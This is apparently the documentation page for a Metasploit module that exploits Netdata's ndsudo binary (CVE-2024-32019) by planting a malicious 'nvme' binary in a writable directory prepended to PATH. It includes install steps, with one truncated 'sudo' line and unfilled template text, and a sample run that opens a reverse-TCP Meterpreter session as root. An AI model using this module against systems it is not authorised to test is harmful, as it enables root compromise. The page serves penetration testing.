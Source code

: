 ## Vulnerable Application

Instructions to get the vulnerable application. If applicable, include links to the vulnerable install
files, as well as instructions on installing/configuring the environment if it is different than a
standard install. Much of this will come from the PR, and can be copy/pasted.

Installation steps:

1. `sudo apt  install cmake libelf-dev git bison flex build-essential libssl-dev libsystem-dev liblz4-dev libzstd-dev libbrotli-dev uuid-dev libuv1-dev`
1. `wget https://github.com/netdata/netdata-nightlies/releases/download/v1.45.0-8-nightly/netdata-latest.tar.gz`
1. `gunzip netdata-latest.tar.gz`
1. `tar -xf netdata-latest.tar`
1. `cd netdata-v1.45.0-8-g5803c7766/`
1. `sudo `

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
1. Start msfconsole
1. Do: `use [module path]`
1. Do: `run`
1. You should get a shell.

## Options


### WritableDir

A path where malicious `nvme` binary will be stored. This path will be later prepended to `$PATH` variable to achieve privilege escalation.

### NdsudoPath

A path to `ndsudo` binary.


## Scenarios


```
msf exploit(linux/local/ndsudo_cve_2024_32019) > run verbose=true
[*] Started reverse TCP handler on 192.168.3.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable binary detected
[*] Creating malicious file at /tmp/nvme
[*] Writing '/tmp/nvme' (250 bytes) ...
[*] Executing..
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3090404 bytes) to 10.5.134.200
[+] Deleted /tmp/nvme
[*] Meterpreter session 3 opened (192.168.3.7:4444 -> 10.5.134.200:53172) at 2025-08-11 11:05:24 +0200

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 10.5.134.200
OS           : Ubuntu 20.04 (Linux 5.13.0-1021-oem)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
